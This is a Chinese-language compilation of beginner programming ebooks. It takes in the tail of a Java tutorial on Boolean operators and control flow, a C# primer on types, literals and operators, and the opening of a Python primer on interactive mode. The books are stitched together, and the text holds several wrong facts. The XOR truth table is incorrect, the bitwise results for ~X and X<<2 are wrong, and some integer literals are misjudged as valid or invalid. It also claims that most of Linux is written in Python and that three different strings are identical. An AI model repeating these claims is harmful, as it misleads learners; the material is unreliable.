## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。

| 布尔逻辑 | 符号 |
| --- | --- |
| 非 (NOT) | `!` |
| 与 (AND) | `&&` |
| 或 (OR) | `||` |
| 异或 (EXCLUSIVE OR) | `^` |

# 真值表

| ‘非’的真值表 | |
| --- | --- |
| `A` | `!A` |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 && E2` |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*`E1`表示表达式 1，`E2`表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 || E2` |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 ^ E2` |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

只有当`if`语句中的表达式为真时，才会执行`if`语句下的特定代码块。如果语句为假，则必须执行`else`语句，并且只有在满足`else`选项中的条件时才会执行。

`if`语句的语法如下：

```
if (<conditional expression>) {
<statement action>
} else {
<statement action>
}
```

看看下面的示例程序：

```
1 public class IfElseStatementDemo {
2
3 public static void main(String[] args) {
4 int a = 20, b = 20;
5 if (a > b) {
6 System.out.println("a is greater than b");
7 } else if (a < b){
8 System.out.println("b is greater than a");
9 } else {
```

```
10 System.out.println("a is equal to b");

11 }

12 }

13 }
```

如果你对其进行分析：

第 4 行提供了程序运行所需的数据。

第 5 行包含一个条件：如果`a`大于`b`，则将打印“a is greater than b”。如果你查看给定的数据，该语句为假，这促使程序执行下一条语句，即`else`语句。

第 7 行提供了另一个选项或条件；不幸的是，它仍然为假。

剩下的就是打印“a is equal to b”。

程序将不会执行`if`或`else-if`语句下的语句，因为这两个语句都是虚假的。然而，底部的`else`语句没有提供任何条件，它告诉程序打印“a is equal to b”，这在实际上是真实的。

尝试更改程序中的给定数据，并观察程序的响应。

# Switch 语句

`switch`语句也称为分支语句（case statement），你为用户提供不同的选项，程序将执行相应的选项。`switch`语句与`if-else`语句相似，都提供了多个选项，程序将寻找第一个被证明为真的选项。它将执行返回值为 true 的那个选项下的语句。

`switch`语句比`if-else`语句更有条理。如果以有规律的方式编码，维护程序也会更容易。如果你有许多选项需要展示，那么你应该使用`switch`语句。

以下是`switch`语句的语法：

```
switch (<non-long integral expression>) {
case 1:
<statement 1>
break;
case 2:
<statement 2>
break;
case n:
<statement 2>
break;
default:
<statement>
} // end of switch or case statement
```

看看下面的示例程序：

```
1 public class SwitchCaseStatementDemo {
```

```
public static void main(String[] args) {
    int a = 10, b = 30, c = 20;
    int response = 0;
    if (a > b && a > c) {
        response = 1;
    } else if (b > a && b > c) {
        response = 2;
    } else if (c > a && c > b) {
        response = 3;
    }

    switch (response) {
        case 1:
            System.out.println("a is the biggest number");
            break;
        case 2:
            System.out.println("b is the biggest number");
    }
}
```

```
19 break;
20 case 3:
21 System.out.println("c is the biggest number");
22 break;
23 default:
24 System.out.println("Error encountered, try again");
25 }
26 }
27 }
```

你需要初始化`int response`，这是你的`switch`语句所需要的。如果你删除了它，你的程序将无法工作。

你可以更改需要处理的数据并查看结果。你可以尝试更改`if-else`语句下的条件并看看会发生什么。确保你在更改某些内容时，更改与整个程序保持一致。否则，你的程序将无法工作或产生不同的结果。

# 循环语句

循环语句是：`while`语句、`do-while`语句和`for`循环。

## while 语句

`while`语句告诉程序继续执行下方的代码块，只要条件或语句保持为真。只有当语句变为假时，程序才会停止重复或执行代码中的指令。

这是`while`循环的语法：

```
while (<loop condition)> <statements>
```

以下是示例程序：

```
1 public class SampleWhileLoop {
2
3 public static void main(String[] args) {
4 int count = 1;
5 System.out.println("Output Numbers 1-10");
6 while (count != 11) {
7 System.out.println(count++);
8 }
9 }
10 }
```

我们需要初始化`int count`为 1。在第 6 行，它仅意味着当`count`等于 11 时，将不再打印任何内容。在第 7 行，“`count++`”告诉程序在下次循环中将`count`加 1，它将打印 2。它需要增加`count`并在下次循环中将打印 3，以此此类推，直到`count`等于 11 才会停止打印。

## do-while 语句


`do-while`循环或语句与`while`语句相似，不同在于程序在检查实际条件执行语句之前首先给出操作。这可以给程序提供更多控制，因为它确保了循环至少执行一次。

这是`do-while`语句的语法：

```
do
<loop body>
while (<loop condition>);
```

以下是示例程序：

```
public class SampleDoWhileStatement {
    public static void main(String[] args) {
        int sheep = 1;
        System.out.println("Output Numbers 1 - 10");
        do {
            System.out.println(sheep++);
        } while (sheep <= 10);
    }
}
```

## for 循环或语句

`for`循环适用于需要执行特定次数特定代码块的任务或程序。它就像只要条件保持为真，就不断重复相同的过程。你需要初始化一个用于控制循环的计数器。

这是你需要遵循的语法：

```
for (<initialization>; <loop condition>; <increment expression>)
<loop body>
```

以下是示例程序：

```
public class SampleForLoop {
    public static void main(String[] args) {
        System.out.println("Output Numbers 1 - 10");
        for (int number = 1; number <= 10; number++) {
            System.out.println(number);
        }
    }
}
```

看看第 5 行，你需要初始化计数器`number`，设置条件为`number`小于等于 10，并使`number`加 1。下一个语句打印计数器数字，初始为`1`。

当`number`变为 2 时，它仍然小于等于 10，计数器再次加 1。下一个语句现在打印`2`。

整个循环将重复，直到`number = 10`。计数器仍然加 1，最后一个语句将打印`10`。

一旦`number`变为 11，它将不再满足小于等于 10 的后续条件。程序将不再执行剩余的语句。

Java 是一门简单且有趣的语言。请不断进步，发现用 Java 编程可以做的更多神奇的事情。

## 结

再次感谢下载本书！

我希望这本书能够帮助你理解轻松创建 Java 程序所需要的 Java 基础知识。

下一步是继续练习你所学的知识，并在学习过程中学习更多命令。

最后，如果你喜欢这本书，我想请你帮个忙，你是否愿意好心在 Amazon 上为本书留评价？我将不胜感激！

点击此处在 Amazon 上为本书留评价！

此外，请务必订阅我的技术和编程邮件，以获取免费书籍并学习更多关于编程的知识。点击此处。

感谢大家，祝大家好运！

## 引言

感谢你的下载，并祝贺你获得了《两周学会 C# 编程基础》这本书。

本书包含了如何在 14 天内学习这种强大编程语言的经过验证的步骤和策略。

电子书专为想要了解 C# 基础的人士设计。基本上，它的目标是帮助你在短短 2 周内掌握这一主题。为了实现这一目标，本书包含了 C# 编程语言的重要方面。它没有冗余的引言或侧边故事。本书将教你所需的知识，使你将在学习 2 周后成为一名精通的 C# 用户。

在本书中，你将学习到：

- C# 基础
- C# 程序的结构
- 基础语法
- 以及更多内容！

再次感谢下载本书，希望你阅读愉快！

# 第 1 章：C# - 基础信息

C# 是一种用于计算机编程的先进、多功能且面向对象的语言。作为当今最大的公司之一，微软将其产品系列的一部分开发了这种编程语言。为了证明 C# 的实用性和可靠性，ISO（国际标准组织）和 ECMA（欧洲计算机制造商协会）已批准这种计算机语言。

根据微软的介绍，C# 语言是为 CLI（即通用语言体系）设计的。CLI 由运行时环境和可执行代码组成，允许在不同的计算机架构和平台上使用高级编程语言。

以下是专业程序员使用 C# 的主要原因：

- C# 是一种面向对象的语言。
- C# 简单且易于学习。
- C# 是一种面向组件的语言。
- C# 是一种结构化编程语言。
- C# 是高级多功能的。
- C# 可以产生优秀的程序。
- C# 允许用户使用不同的计算机系统进行编译。

## C# 环境

本节将讨论 C# 的要求。如你所知，C# 是`.Net`框架的一部分。因此，在学习使用这种语言可以做什么之前，你应该熟悉`.Net`。

### 什么是 .Net？

该框架是一个创新的程序，允许用户编写各种应用程序。这些应用程序包括：

- Web 服务
- Web 应用程序
- Windows 应用程序

为`.Net`设计的应用程序也可以在平台上运行。基本上，该框架兼容以下编程语言：

- C++
- C#
- Jscript
- COBOL
- Visual Basic

`.Net`由海量的代码集合组成。以下是你将遇到的一些代码：

- LINQ
- ADO.NET
- Windows Forms
- ASP.Net
- 通用类型系统 (Common Type System)

### C# 的集成开发环境

微软为 C# 程序员提供各种工具（例如 Visual Web Developer）。你可以直接访问微软官网获取免费的编程工具。这意味着你可以在不花钱的情况下创建许多计算机程序。如果你愿意，可以使用记事本（或其他文本编辑器）创建应用程序的源代码。然后，使用`.Net`内置的编译器将代码编译成程序。

### 如何使用 Mac 或 Linux 系统编写 C# 程序

虽然这个框架是为 Windows 计算机创建的。但是，即使你使用其他系统（例如 Mac 或 Linux），仍然可以运行`.NET`框架。例如，你可以使用名为`Mono`的`.Net`变体。该变体预装了 C# 编译器，并兼容不同的操作系统。

# 第 2 章：C# 程序的基本结构

本章将教你 C# 程序的基础结构。这些信息可以帮助你实现目标。

## 编写你的第一个程序

C# 程序由这些部分组成：

- 类 (Classes)
- 表达式 (Expressions)
- 声明 (Declarations)
- 方法 (Methods)

分析下方的截图：

```csharp
using System;
namespace HelloWorld
{
    class HelloWorld
    {
        static void Main(string[] args)
        {
            // First program
            Console.WriteLine("Hello World");
            Console.ReadKey();
        }
    }
}
```

一旦你编译了代码，屏幕将显示：

```
Hello World
```

```csharp
{
    Console.WriteLine("Length: " + length);
    Console.WriteLine("Width: " + width);
    Console.WriteLine("Area: " + GetArea());
}

class ExecuteRectangle
{
    static void Main(string[] args)
    {
        Rectangle r = new Rectangle();
        r.AcceptDetails();
        r.Display();
        Console.ReadLine();
    }
}
```

编译并执行该代码后，你将得到结果：

```
Length: 4.5
Width: 3.5
Area: 15.75
```

现在，让我们逐一讨论代码的各个部分：

- `using` – 所有的 C# 代码都以这一行开始。`using`是一个可以链接 C# 程序内部命名空间的关键字。同样，一个程序可以包含多行`using`。这意味着你可以在每个程序中包含多个命名空间。
- `class` – 你应该使用这个关键字来声明类。
- `Comments` – 你应该使用这部分来解释你的代码。通常情况下，C# 编译器会忽略这部分。确保你的多行注释以`/*`开头并以`*/`结束。查看下例：

```c
/* 此程序演示了
C# 编程
语言的基本语法 */
```

另一方面，对于单行注释，请使用两个斜杠（即`//`）。查看下例：

```csharp
// end class Rectangle
```

- `member variables` – 这些是类的数据成员或属性。你应该使用变量来存储数据。对于当前的示例，`Rectangle`类有 2 个成员变量：`width`和`length`。
- `member functions` – 函数是执行特定任务的命令集合。通常情况下，你应该将类的函数声明在类内部。在上面给出的程序中，`Rectangle`有 3 个成员函数：`Display`、`GetArea`和`AcceptDetails`。

## C# 标识符

标识符是用于确定类、函数、变量或程序员定义的任何项的名称。在 C# 语言中，为类命名时，你必须遵循以下规则：

- 每个名称都应该字母字母开头。你可以使用字母、数字和下划线继续扩展名称。你不能用数字作为标识符的开头。
- 你选择的名称不能包含空格或特殊符号（例如`?`、`+`、`%`和`*`）。然而，如前面的规则所述，在命名标识符时可以使用下划线。
- 你不能使用任何 C# 关键字作为标识符的名称。

## C# 语言的关键字

基本上，关键字是一个在 C# 语言中具有预定义函数的保留字。你不能在命名标识符时使用关键字。然而，如果你真的想这样做，可以在关键字的开头添加`@`符号。

在这个编程语言中，某些标识符（例如`set`、`get`等）具有特殊含义。程序员将这些标识符称为“上下文关键字”。

你将在下方看到两个表格。这些表格将展示 C# 语言中的上下文关键字和保留关键字。

### 上下关键字

| set | get | let | add | group | alias | from |
|-----|-----|-----|-----|-------|-------|------|
| select | partial (method) | global | partial (type) | dynamic | orderby descending | |

### 保留关键字

| ascending | into | remove | join | | | |
|-----------|------|--------|------|---|---|---|
| as | if | is | In | do | try | int |
| new | for | out | ref | goto | this | else |
| void | true | lock | char | byte | base | case |
| bool | long | null | uint | using | sbyte | catch |
| const | break | short | throw | ulong | while | event |
| class | float | false | fixed | decimal | abstract | checked |
| continue | delegate | explicit | internal | double | default | finally |
| in (as a modifier) | generic | readonly | return | sealed | interface | implicit static |
| virtual | switch | sizeof | namespace | params | foreach protected | |
| stackalloc | string | override | operator | unchecked | volatile private | |
| object | public | unsafe | extern | enum | typeof ushort | |
| out (as a modifier) | generic | struct | | | | |

# 第 4 章：不同的类型

本章将讨论 C# 中的各种类型。如上所述，你将遇到不同的类型：

## 值类型 (Value Type)

值类型直接存储数据。类名为`System.ValueType`。以下是：

- `decimal`
- `long`
- `uint`
- `ulong`
- `float`
- `double`
- `byte`
- `char`
- `short`
- `bool`

## 引用类型 (Reference Type)

引用类型指向内存。该类名为`System.Object`。以下是：

- `string`
- `object`

## 动态类型 (Dynamic Type)

动态类型允许你存储任何值。在运行时会发生这种情况：

```csharp
dynamic x = 99;
```

## 字符串类型 (String Type)

字符串类型是名为`System.String`的类。例如：

```csharp
String str = "Tutorials Point";
```

# 第 5 章：变量

变量指的是可以被操作的内存位置。每个变量都属于特定的类型，该类型规定了：

- 变量的大小和结构
- 你可以在内部存储的值
- 你可以对其应用的操作

你可以这样对类型进行分类：

1. 数值类型 (Decimal Types)
2. 可空类型 (Nullable Types)
3. 整数类型 (Integral Types)
4. 布尔类型 (Boolean Types)
5. 浮点类型 (Floating Point Types)

## 如何定义变量

在定义变量时，使用以下语法：

```c
<data_type> <variable_list>;
```

## 如何初始化变量

你可以使用`=`初始化变量。要完成该过程，只需在等号后添加一个常量表达式。

```c
variable_name = value;
```

你可以在声明阶段初始化变量：

```csharp
<data_type> <variable_name> = value;
```

## 如何输入值

C# 有一个名为`System`的命名空间。该命名空间包含不同的类，其中之一`Console`。该类提供了`ReadLine()`，这是一个接收用户输入并将其存储到变量中的函数。

```csharp
int num;
num = Convert.ToInt32(Console.ReadLine());
```

## Rvalue 和 Lvalue 表达式

C# 编程语言支持两种类型的表达式：

- `rvalue`（右值）—— 这种表达式可以出现在任何赋值的右侧，但永远不会出现在左侧。
- `Lvalue`（左值）—— 这种表达式可以出现在任何赋值的右侧或左侧。

变量被归类为`Lvalues`。因此，它们可以出现在赋值的任意两侧。另一方面，数字字面量被归类为`rvalues`。这意味着你不能对它们赋值，也无法将它们放在赋值的左侧。请查看下面的两个示例：

- C# 有效语句：`int x = 99`
- C# 无效语句：`99 = 66`

# 第 6 章：字面量与常量

“字面量”（literals）一词指的是固定或不可更改的值：在程序执行期间，你无法更改这些值。字面量也被称为常量。字面量可以是任何基本数据类型的形式（例如：浮点常数、整数字面量、字符串字面量、字符字面量等）。此外，你还可以在 C# 语句中使用枚举字面量。

## 整数常量

整数常量可以是八进制、十进制或十六进制字面量。你应该使用前缀来指定基数（也称为进制率）。请查看此列表：

- 八进制字面量使用`0`
- 十六进制字面量使用`0X`或`0x`
- 十进制字面量不需要前缀

整数字面量还可以带有`L`和`U`后缀。`L`用于长型整数（long），而`U`用于无符号整数（unsigned）。这些后缀是不区分大小写的。

下面的列表将向你展示有效和无效的整数常量：

- `131` – 有效
- `312u` – 有效
- `0XYoU` – 有效
- `218` – 无效：数字 8 不是八进制。
- `123UU` – 无效：你不能重复后缀。

这里是第二个示例列表。然而，这个列表将向你展示不同整数常量：

- `0123` – 八进制
- `86` – 十进制
- `0x5b` – 十六进制
- `20` – int
- `20u` – 无符号整数
- `20l` – 长型整数
- `20ul` – 长型无符号整数

## 浮点数常量

浮点数常量可能包含以下部分：

1. 一个小数点
2. 一个指数
3. 一个整数
4. 一个分数

以下是浮点数常量的有效和无效示例：

- `3.14` – 有效
- `314.5L` – 有效
- `310E` – 无效：指数不完整。
- `310f` – 无效：该常量没有指数或小数点。
- `.e44` – 无效 – 该常量缺少分数或整数。

在使用十进制数字时，你应该包含指数、小数点或两者。然而，在使用指数计数法数字时，你应该包含分数、整数或两者。

## 字符常量

你应当将字符常量放在单引号内。例如，你可以存储一个`char`变量。通常情况下，字符字面量可以是简单字符（例如`' '`）、通用字符（例如`'\'`）或转义序列（例如`'\t'`）的形式。

在 C# 中，某些字符如果由反斜杠引入，将获得特殊含义。由于它们具有特殊含义，你可以将它们用于某些功能，如制表（`\t`）或换行（`\n`）。下面的列表将向你展示一些转义序列及其含义：

- `\'` – 代表单引号。
- `\"` – 代表双引号。
- `\\` – 代表反斜杠。
- `\?` – 代表问号。
- `\a` – 代表响铃。
- `\b` – 代表退格。
- `\n` – 代表换行。
- `\f` – 代表分页。
- `\t` – 代表水平制表。
- `\r` – 代表回车。
- `\ooo` – 代表 1-3 位的八进制数。
- `\v` – 代表垂直制表。
- `\xh` – 代表一个或多个位的十六进制数。

## 字符串常量


你应该使用双引号（即 `""`）包裹字符串常量。通常，字符串常量与字符常量相似：包含转义序列、通用字符和普通字符。你可以使用字符串字面量将长行拆分为较短行。然后，你可以使用空格来分隔行。下面的列表将向你展示一些字符串常量：

- `"hello"`
- `"world"`
- `"hello world"`

重要提示：上述给出的字符串常量是完全相同的。它们将产生相同的结果。

# 如何定义字面量

你可以使用 `const`（即 C# 关键字）来定义常量。在定义常量时，你应该使用以下语法：

```
const <data_type> <constant_name> = value;
```

# 第 7 章：C# 中的运算符

运算符决定了如何执行逻辑或数学操作。基本上，运算符是用来与 C# 编译器通信的符号。这种编程语言拥有一个强大的运算符集合。这些运算符分为六类，即：

- 关系运算符
- 赋值运算符
- 算术运算符
- 位运算符
- 逻辑运算符
- 其他运算符

让我们详细讨论每一类：

## 关系运算符

下面的表将向你展示 C# 语言中提供的关系运算符。让我们使用两个变量：`X = 2; Y = 4`。

- `==` – 该运算符测试操作数之间的相等性。如果值相等，运算符将给出“true”作为结果。例如，`Y == X`。
- `>` – 该运算符检查操作数的值。如果左操作数大于右操作数，则结果为真。例如，`Y > X`。
- `<` – 该运算符检查操作数的值。如果左操作数小于右操作数，则结果为真。例如，`X < Y`。
- `!=` – 该运算符检查操作数之间的相等性。如果操作数的值不等，则结果为真。例如，`Y != X`。
- `<=` – 该运算符测试左操作数的值是否小于等于右操作数。例如，`Y <= X`。
- `>=` – 该运算符测试左操作数的值是否大于等于右操作数。例如，`Y >= X`。

## 赋值运算符

下面的列表显示了 C# 赋值运算符：

- `=` – 该赋值运算符可以复制右操作数的值并赋予左操作数。例如，`Z = X + Y` 将 `X + Y` 的值赋给 `Z`。
- `+=` – 该运算符被称为“加赋值”。它可以将右操作数的值加到左操作数，并将和赋左操作数。例如，`Z +=` 等于 `Z = Z + X`。
- `-=` – 该运算符被称为“减赋值”。它可以从左操作数中减去右操作数的值，并将差赋左操作数。例如，`Z -=` 等于 `Z = Z - X`。
- `*=` – 该运算符被称为“乘赋值”。它可以将右操作数的值与左操作数相乘，并将积赋左操作数。例如，`Z *=` 等于 `Z = Z * X`。
- `/=` – 该运算符被称为“除赋值”。它可以将左操作数的值除以右操作数的值，并将结果赋左操作数。例如，`Z /=` 等于 `Z / X`。
- `%=` – 该运算符被称为“取模赋值”。它使用两个运算符取模并将结果赋左操作数。例如，`(Z %= X)` 等于 `(Z = Z % X)`。
- `<<=` – 该运算符被称为“左移赋值”。它根据右操作数指定的位数调整左操作数的值，然后将结果赋左操作数。例如，`Z <<= 3` 等于 `Z << 3`。
- `>>=` – 该运算符被称为“右移赋值”。它根据右操作数指定的位数将左操作数的值向右移动。检查这个示例：`(X >>= 3)` 等于 `(X >> 3)`。

## 算术运算符

下方列表显示了 C# 语言中可用的算术运算符。为了帮助你理解每个运算符，让我们使用两个变量：`X = 2` 和 `Y = 4`。

- `+` – 该运算符将两个操作数相加（例如 `X + Y = 6`）。
- `-` – 该运算符从第一个变量中减去第二个变量的值（例如 `Y – X = 2`）。
- `*` – 该运算符将操作数相乘（例如 `X * Y = 8`）。
- `/` – 该运算符使用分母除以分子（例如 `Y/X = 2`）。
- `++` – 这被称为自增运算符。它将变量的值加 1（例如 `X++ = 3`）。
- `--` – 这被认为是自减运算符。它将变量的值减 1（例如 `Y-- = 3`）。

## 位运算运算符

你可以使用位运算符对比特位进行操作。通过这一类运算符，你将能够执行逐位操作。下方的图片包含了 `^`、`|` 和 `&` 的真值表。

| p | q | p & q | p \| q | p ^ q |
|---|---|-------|--------|-------|
| 0 | 0 | 0     | 0      | 0     |
| 0 | 1 | 0     | 1      | 1     |
| 1 | 1 | 1     | 1      | 0     |
| 1 | 0 | 0     | 1      | 1     |

对于以下示例，假设 `X` 为 60，`Y` 为 13。让我们将其转换为二进制元素：

```
X = 0011 1100
Y = 0000 1101
```

现在，对这些变量执行位操作：

```
X|Y = 0011 1101
X&Y = 0000 1100
~X = 1100 0001
X^Y = 0011 0001
```

下方列表显示了 C# 语言中可用的位运算符。让我们使用相同的值：`X = 60`；`Y = 13`。

- `&` – 此二位运算符被称为“与（AND）”。如果两个操作数具有相同的位，则该位将被复制到结果中。例如：`(X & Y) = 12`，即 `0000 1100`。
- `|` – 该运算符被称为“或（OR）”。它将复制操作数中存在的位。例如：`(X | Y) = 61`，即 `0011 1101`。
- `^` – 此二位运算符被称为异或（XOR）。它将复制仅存在于一个操作数中的位。因此，异或不会复制两个操作数中都存在的位。这里有一个例子：`(X ^ Y) = 49`，即 `0011 0001`。
- `~` – 这是一个一元运算符。在 C# 编程语言中使用时，它会“翻转”比特位。例如：`(~X) = 61`，即 `1100 0011`。
- `>>` – 这被称为“右移运算符”。它根据右操作数指示的比特位，将左操作数的值向右移动。例如：`X >> 2 = 15`，即 `0000 1111`。
- `<<` – 这被称为左移运算符。它根据右操作数指示的比特位，将左操作数的值向左移动。例如：`X << 2 = 15`，即 `1111 0000`。

## 逻辑运算符

以下列表将向你展示 C# 中可用的逻辑运算符。让我们给 `X` 和 `Y` 赋值布尔值。`X` 持有“TRUE”，而 `Y` 持有“False”。

- `||` – 该运算符被称为“逻辑或”（Logical OR）。如果其中一个操作数不等于零，则条件为真。例如：`(X || Y)` 为真。
- `&&` – 该运算符被称为“逻辑与”（Logical And）。如果所有操作数都不等于零，则条件为真。例如：`(X % Y)` 为假。
- `!` – 该运算符被称为“逻辑非”（Logical Not）。你应该用它来反转操作数的状态。如果条件为真，此运算符将变为假。`!(X || Y)`

## 其他运算符

C# 编程语言支持其他运算符。以下是重要的：

- `sizeof()` – 该运算符可以识别任何数据类型的大小。例如，`sizeof(int)` 可以给你 4。
- `type()` – 该运算符可以识别任何类的类型。例如：`type(StreamReader)`
- `&` – 你可以使用此运算符确定任何变量的地址。例如：`&x` 将给你变量 `x` 的地址。
- `*` – 你可以使用此运算符创建指向任何变量的指针。例如，你可以使用 `*xt` 创建一个指针，命名为 `x`，并将其赋值给任何变量。
- `?` – 该运算符被称为“条件表达式”。它根据条件给任何变量赋值。如果其条件为真，它可能会将 `X` 的值赋给变量。然而，如果条件为假，它将赋值 `Y` 的值。
- `is` – 你可以使用此运算符确定对象是否属于某种类型。这里有一个例子：`If(Gucci is Bag)` // 将检查名为 `Gucci` 的对象是否属于名为 `Bag` 的类。

# 第 8 章：C# 中的循环

在某些情况下，你必须多次执行某个代码块。然而，重复输入相同的语句是无聊且耗时的。这意味着你应该找到一种快速简单的方法重复代码。如果你不知道如何实现，本章将对你有很大帮助。

重要注意：语句通常按顺序执行。这意味着 C# 首先执行第一条语句，然后是后续，依此类推。你在阅读本章时应该记住这个概念。

与其他语言一样，C# 为你提供了不同的循环。这意味着你可以在程序中使用这些循环来执行必须执行多次的语句。查看下文：

下方的图片显示了 C# 中循环的：


C# 编程语言允许将循环嵌套在其他循环中。这意味着你可以在程序中使用不同类型的循环。你使用的语法取决于你想要作为“容器”的循环。查看下文：

- While 循环 – 如果条件为真，这些循环将重复执行你的语句。下方的图片显示了 C# 中 `while` 循环的语法：
- For 循环 – 循环被视为重复结构。你可以使用这种结构来编写必须执行多次的语句。这是你在 C# 中编写 `for` 循环时应该遵循的语法：
- Do ... While 循环 – 这些循环在到达结束时测试条件。由于它们在检查条件之前先执行功能，`do ... while` 循环至少执行一次循环体。下方的图片显示了 `do ... while` 循环的语法：
- 嵌套循环 – 你可以将这些循环嵌套在其他循环中。这意味着你可以在程序中使用不同类型的循环。你使用的语法取决于你想要作为“容器”的循环。

# Python 快速训练营

# 理解 Python 计算机语言基础的入门课程

在 KindleSpot.com 获取更多免费和廉价书籍

## 目录

引言

第 1 章：什么是 Python？

第 2 章：Python 的交互式模式

第 3 章：基础知识

第 4 章：序列

第 5 章：不同的数据类型

第 6 章：你将遇到的错误

结论

## 引言

感谢你的下载并祝贺你下载了《学者 Python 编程》一书。

本书包含了掌握 Python 编程语言基础元素的经过证明的步骤和策略。

本电子书将教你一些关于 Python 的重要信息。它将解释 Python 程序员正在使用的概念和想法。此外，它还会为你提供实际的代码和语句。这意味着你将了解 Python 语言的理论和实践方面。

在书中你将学习到：

- 什么是 Python
- 如何使用 Python
- 常见的 Python 数据
- 以及更多内容！

再次感谢下载本书。希望你喜欢它！

# 第 1 章：什么是 Python？

Python 是一种高级且结构化的编程语言。你可以用它来完成各种编程任务。此外，Python 是一种开源语言：全球数千万计算机专家每天都在使用并改进它。一位名叫 Guido Van Rossum 的荷兰程序员在 90 年代初创建了 Python。他以一部名为《蒙蒂派森的飞行马戏团》的喜剧节目命名了它。

计算机专家认为 Python 是一种强大的编程语言。系统管理员使用它来开发不同类型的计算机软件。实际上，Python 对改进 Linux 系统提供了巨大的帮助。Linux 的大部分主要组件都是使用 Python 编写的。IT 教授也使用这种语言教授基础编程。这意味着 Python 是多功能、强大且易于学习的。

在执行之前，这种编程语言会自动编译成字节码。系统将字节码保存到硬盘上。这意味着除非对源代码进行更改，否则用户不需要执行编译。此外，Python 是一种动态类型编程语言，允许（但并不要求）面向对象的结构和特性。

与其他编程语言不同，Python 将空白符视为代码的重要部分。事实上，空白符的重要性是 Python 最显著的属性。Python 不使用块分隔符（C 语言使用的），而是使用缩进来表示代码块的起始点和结束点。

Python 的另一个酷的特性是它支持所有平台。你可以轻松地在 Linux、Mac 和 Windows 计算机上安装并使用 Python。这意味着使用这种语言编写的计算机程序极具移植性：你可以在任何可用平台上使用它们。

# 第 2 章：Python 的交互式模式

Python 编程语言有两种不同的模式：

1. 普通模式 – 在此模式下，你使用内置解释器运行脚本化且完整的 Python 文件。
2. 交互模式 – 这是一个命令行程序，可以对你的每个语句提供即时反馈。这种模式在执行存储在内存之前的语句时提供反馈。从技术上讲，交互模式在向 Python 解释器输入新语句时，单独和整体地评估语句。

本章将重点介绍交互式模式。要激活它，只需输入 `python` 而不添加任何参数。这是学习这种编程语言的极佳方法：你可以玩弄语句和语法变化。输入 `python` 后，屏幕将向你显示类似下面的消息：

```
$python
Python 3.0b3 (r30b3.66303, Sep 8 2008, 14.01.02) [MSVC v.1500 32 bit (Intel)]
on win32
Type help, "copyright","credits" or "license" for more information.
>>>
```

重要提示：如果 Python 无效，请确保你已正确设置了路径。

注意消息末尾有 `>>>`。这些符号表示你正在使用 Python 的交互式模式。在这里，系统将立即运行你输入的任何内容。实际上，如果你输入 `1 + 1`，Python 将给你返回 2。你可以使用这种模式来熟悉 Python 并测试它的功能。如果你学习了新语句，激活交互式模式并逐个检查它们。

下面的图片显示了一个交互会话：

```
>>> 5
5
>>> print(5*7)
35
>>> "hello" * 4
hellohellohellohello
>>> "hello".__class__
type 'str'>
```

如所示，Python 的交互式环境是一个极佳的学习和编程工具。然而，在使用它时必须非常小心，因为有时可能会产生困惑。例如，下面的图片显示了一个在交互模式下被认为有效的 Python 脚本：

```
if 1:
    print("True")
print("Done")
```

如果你在交互式模式中这样使用此脚本，你会得到一个令人惊讶的结果：

```
>>> if 1:
>>>     print("True")
>>> print("Done")
File<stdin>, line 3
print("Done")
SyntaxError: invalid syntax
```

Python 解释器说第二个 `print` 的缩进是意外的。在编写下一个语句之前，你需要使用空行来结束第一个语句（即 `if` 语句）。例如，你必须按照这种格式输入语句：

```
if 1:
    print("True")
    空行
print("Done")
```

这将产生以下结果：

```
>>> if 1:
    print("True")
...
True
    >> print("Done")
Done
>>>
```

## 交互模式

你可以使用 `-i` 来激活交互式模式。此标志将阻止 Python 在程序结束后关闭。计算机程序员经常使用这个标志，特别是在原型和调试阶段。这是一个示例：

```
python -i hello.py
```

# 第 3 章：基础知识

在这一部分，你将学习 Python 编程语言的基础知识。接下来的页面将教你如何使用 Python 创建程序。此外，你将了解 Python 语句的不同部分，如字符串和变量。仔细学习这一章，因为可以帮助你成为出色的 Python 用户。

## 如何创建 Python 程序

通常情况下，使用 Python 创建的程序只是普通的文本文件。这意味着你可以用典型的文本编辑器编辑它们。使用你最喜欢的编辑器：如果你使用一个带有语法高亮的编辑器就太好了。

## 你的第一个程序

缺乏经验的程序员通过编写“Hello, World!”程序开始他们的 Python 之旅。在这里，程序简单运行。尝试这个简单的练习：

1. 打开你的文本编辑器。
2. 创建一个文件并将其保存为 `hello.py`。在该文件中，输入以下行：

```
print('Hello, World!')
```

“Hello, World!”程序利用了 `PRINT`，这是一个将语句的参数发送到机器终端的函数。`PRINT` 函数在语句中添加一个换行符。因此，它会自动将光标转移到后续行。

重要提示：对于 Python 2，`PRINT` 被视为一条语句而不是函数。这意味着你可以在不带括号的情况下使用。在这种情况下，`PRINT` 做了两件事：

- 它将整行发送到终端
- 它允许用户通过在字符后放置逗号来指示多行语句。

你刚刚完成了自己的程序。现在，你准备好使用 Python 运行它了。注意，此过程取决于你所使用的 OS（即操作系统）。

对于 Windows 计算机：

- 创建一个新文件夹。你应该只用此文件夹存放 Python 计算机程序。将 `hello.py` 文件保在此文件夹中。对于这个练习，假设你将其命名为 `C:\pythonfiles`
- 访问开始菜单并选择“运行...”。
- 在对话框中输入 `cmd` 打开操作系统的终端。
- 输入 `cd \pythonfiles` 并按回车。此操作将 `pythonfiles` 文件夹设置为当前目录。
- 输入 `hello.py`（即程序的文件名）来运行程序。

对于 Mac 计算机：

- 创建一个仅用于 Python 程序的文件夹。对于这个练习，将此文件夹命名为 `pythonfiles` 并将其保存在你计算机的主用户文件夹中（即包含音乐、电影、图片、文档等文件夹的文件夹）。
- 将 `hello.py` 程序保存到 `pythonfiles` 文件夹。
- 进入计算机的“应用程序”部分，进入“实用工具”，并启动终端软件。
- 在对话框中输入 `cd pythonfiles` 并按回车。
- 输入 `python /hello.py` 来运行 Hello, World! 程序。

## 对于 Linux 计算机：

- 创建一个文件夹并命名为 `pythonfiles`。然后，将 `hello.py` 文件保存其中。
